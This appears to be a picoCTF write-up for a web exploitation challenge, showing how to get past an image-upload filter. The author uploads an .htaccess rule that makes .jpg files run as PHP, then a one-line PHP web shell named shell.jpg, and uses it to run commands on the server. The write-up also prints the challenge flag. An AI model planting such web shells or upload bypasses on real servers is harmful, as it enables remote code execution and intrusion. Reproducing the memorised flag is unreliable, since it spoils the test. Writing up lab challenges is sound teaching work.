





# byp4ss3d

Category: Web Exploitation

Difficulty: Medium

Author: Yahaya Meddy

---

## Challenge Description

> A university's online registration portal asks students to upload their ID cards for verification. The developer put some filters in place to ensure only image files are uploaded but are they enough? Take a look at how the upload is implemented. Maybe there's a way to slip past the checks and interact with the server in ways you shouldn't.

---

## Exploitation



Conducting upload abitrary file then using BurpSuite proxy requests.

Trying change `.jpg` to `.php`:



Because Server don't allow files such as `.jpg` so that if inject execute,code will not run.

Needing .htaccess file to `.jpg` equal `.php` to give PHP Engine execute code.

`.htaccess` file:

```
AddType application/x-httpd-php .jpg
```

At this time, Server think `.jpg` equal `.php` so `.jpg` can give PHP Engine execute code.

Changing filename `.htaccess` to `shell.jpg`

Content-Type: image/jpg

And content `AddType application/x-httpd-php .jpg` to `<?php system($_GET['cmd']); ?>` and send request.



`Successfully uploaded!!!`

Create new request:

```
GET /images/shell.php.jpg?cmd=find+/+-iname+"*flag*"+2>/dev/null HTTP/1.1
Host: amiable-citadel.picoctf.net:61996
```

Send to give response:



Using `cat /var/www/flag.txt` to give the flag:



flag: `picoCTF{s3rv3r_byp4ss_65a9e718}`
